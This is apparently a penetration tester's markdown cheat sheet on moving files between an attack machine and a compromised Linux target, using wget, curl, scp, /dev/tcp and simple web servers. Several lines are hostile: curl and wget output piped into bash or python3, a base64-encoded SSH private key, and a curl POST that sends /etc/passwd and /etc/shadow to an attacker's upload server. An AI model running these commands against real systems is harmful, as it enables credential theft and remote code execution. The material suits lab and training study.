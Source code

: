 ```yaml
---
layout: default
---
```


# OPEN SERVER:
## PYTHON:
- `python3 -m http.server 1234` local machine

# WGET
- `wget http://10.10.14.1:8000/linenum.sh` target machine
- `curl http://10.10.14.1:8000/linenum.sh -o` linenum.sh

# SCP
- `scp linenum.sh user@remotehost:/tmp/linenum.sh` local machine

# Attack to Target
## Base64 Encoding / Decoding
**Encode SSH Key to Base64**
```bash
$ cat id_rsa |base64 -w 0;echo`
```

**Decode the File**
```bash
$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell`
```

**Confirm the MD5 Hashes Match**
```bash
$ md5sum id_rsa
```

## Web Downloads with Wget and cURL
**Download a File Using wget**
```bash
$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`
```

**Download a File Using cURL**
```bash
$ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
```

## Fileless Attacks Using Linux
**Fileless Download with cURL**
```bash
$ curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash`
```

**Fileless Download with wget**
```bash
$ wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3`
```
## Download with Bash (/dev/tcp)
**Connect to the Target Webserver**
```bash
$ exec 3<>/dev/tcp/10.10.10.32/80`
```

**HTTP GET Request**
```bash
$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3`
```

**Print the Response**
```bash
$ cat <&3`
```

## SSH Downloads
SSH (or Secure Shell) is a protocol that allows secure access to remote computers. SSH implementation comes with an SCP utility for remote file transfer that, by default, uses the SSH protocol.

SCP (secure copy) is a command-line utility that allows you to copy files and directories between two hosts securely. We can copy our files from local to remote servers and from remote servers to our local machine.

SCP is very similar to copy or cp, but instead of providing a local path, we need to specify a username, the remote IP address or DNS name, and the user's credentials.

**Enabling the SSH Server**
```bash
$ sudo systemctl enable ssh`
```

**Starting the SSH Server**
```bash
$ sudo systemctl start ssh`
```

**Checking for SSH Listening Port**
```bash
$ netstat -lnpt`
```

**Downloading Files Using SCP**
```bash
$ scp plaintext@192.168.49.128:/root/myroot.txt . `
```

`Note: You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer.`

# Target to Attack
## Web Upload
**Attack - Start Web Server**
```bash
$ sudo python3 -m pip install --user uploadserver`
```

**Attack - Create a Self-Signed Certificate**
```bash
$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'`
```

`The webserver should not host the certificate. We recommend creating a new directory to host the file for our webserver.`

**Attack - Start Web Server**
```bash
$ mkdir https && cd https
$ sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
```

**Target - Upload Multiple Files**
```bash
$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

## Alternative Web File Transfer Method
**Target - Creating a Web Server with Python3**
```bash
$ python3 -m http.server
```

**Target - Creating a Web Server with Python2.7**
```bash
$ python2.7 -m SimpleHTTPServer
```

**Target - Creating a Web Server with PHP**
```bash
$ php -S 0.0.0.0:8000
```

**Target - Creating a Web Server with Ruby**
```bash
$ ruby -run -ehttpd . -p8000
```

**Download the File from the Target Machine onto the Attack**
```bash
$ wget 192.168.49.128:8000/filetotransfer.txt
```

## SCP Upload
**File Upload using SCP**
```bash
$ scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/
```

```bash
scp -P 3520 usuario@192.168.49.128:/home/usuario/arquivo.txt .
```
